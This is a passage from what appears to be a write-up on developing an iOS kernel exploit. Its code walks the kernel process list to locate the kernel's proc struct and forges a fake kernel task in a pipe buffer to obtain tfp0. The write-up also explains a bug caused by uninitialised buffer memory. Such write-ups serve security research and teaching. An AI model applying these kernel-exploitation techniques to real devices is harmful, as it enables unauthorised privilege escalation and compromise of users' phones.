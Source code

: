 ```
uint64_t kernproc_kaddr = 0;
uint64_t curproc = myproc_kaddr;

for(;;){
    uint32_t pid = -1;
    EarlyKernelRead32(curproc + PROC_PID_OFFSET, &pid);

    if(pid == 0){
        kernproc_kaddr = curproc;
        break;
    }

    EarlyKernelRead64(curproc, &curproc);
}
```

Now that we've got the kernel's `proc` struct, we can read its `task` field for the kernel's `task` struct. Finally, from there, we can get a pointer to the kernel's `vm_map`. Two pointers down, one to go.

#### Fake kernel task

After iOS 10.3, Apple started to check against the real kernel task pointer, so we can't hook `kerntask_kaddr` up to our fake kernel task port. Instead, we can make our own with a pipe buffer:

```
int taskpipe[2];
pipe(taskpipe);

ktask_t faketask = {0};
faketask.lock.type = 0x22;
faketask.ref_count = 100;
faketask.active = 1;
faketask.map = kern_vmmap_kaddr;

write(taskpipe[1], &FAKE_TASK_PIPE_MAGIC, sizeof(FAKE_TASK_PIPE_MAGIC));
write(taskpipe[1], &faketask, sizeof(faketask));
```

`FAKE_TASK_PIPE_MAGIC` is a magic number that will come in handy later. This is where the kernel's `vm_map` comes into play. The nastiest bug I ran into while developing this exploit had to do with this fake kernel task. That `ktask_t` structure is only 40 bytes. It includes all the fields of `struct task` up to and including `map` because we don't need to mess with anything after `map`. The real `task` structure is way larger than that. After I get tfp0 I test it by granting myself root, then restoring my original UID, GID, etc. That test would fail around 50% of the time, and it felt completely random. The pipe buffer is a normal `kalloc` allocation, so the parts of that buffer I don't use, including the rest of the fake `task` struct, is initialized with whatever was there before. I forgot to zero out the remainder of the fake task pipe buffer! I don't know what `sizeof(struct task)` is, but it shouldn't be more than `0x900` bytes:

```
char zerobuf[0x900] = {0};
write(taskpipe[1], zerobuf, sizeof(zerobuf));
```
